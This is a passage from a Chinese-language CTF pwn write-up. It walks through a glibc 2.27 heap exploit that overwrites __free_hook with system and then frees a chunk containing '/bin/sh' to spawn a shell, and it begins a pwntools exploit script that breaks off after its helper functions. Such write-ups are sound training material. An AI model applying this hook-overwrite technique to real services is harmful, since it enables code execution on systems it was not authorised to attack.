    ![image-20240711210928204](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112109521.png)

3. 释放掉chunk0和chunk1,再申请content一个大小为0x20的chunk:

   ```python
   free(0)
   free(1)
   
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   payload = b"/bin/sh\x00"+p64(0)+p64(free_hook_addr)+p64(0x0000000100000010)
   add(0x20,b"aaaa",payload)
   ```

   ![image-20240711212031691](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112120879.png)

4. 使用chunk0,向free_hook_addr地址处(0x00007ffb8e1ed8e8)写入system地址,最后调用system("/bin/sh"):

   ```python
   payload = p64(system_addr)
   edit(0,payload)
   free(0)
   ```

   ![image-20240711212726385](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112127527.png)

5. 完整EXP:

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   # p = remote("node5.anna.nssctf.cn",20648)
   p = process("./pwn")
   libc = ELF('./libc-2.27.so')
   elf = ELF("./pwn")
   
   n2b = lambda x    : str(x).encode()
   rv  = lambda x    : p.recv(x)
   ru  = lambda s    : p.recvuntil(s)
   sd  = lambda s    : p.send(s)
   sl  = lambda s    : p.sendline(s)
   sn  = lambda s    : sl(n2b(n))
   sa  = lambda t, s : p.sendafter(t, s)
   sla = lambda t, s : p.sendlineafter(t, s)
   sna = lambda t, n : sla(t, n2b(n))
   ia  = lambda      : p.interactive()
   rop = lambda r    : flat([p64(x) for x in r])
   
   
   def add(size,name,content):
       sla(b':','1')
       sla(b':',str(size))
       sla(b':',name)
       sa(b':',content)
   
   def free(index):
       sla(b':','2')
       sla(b':',str(index).encode())
   
   ```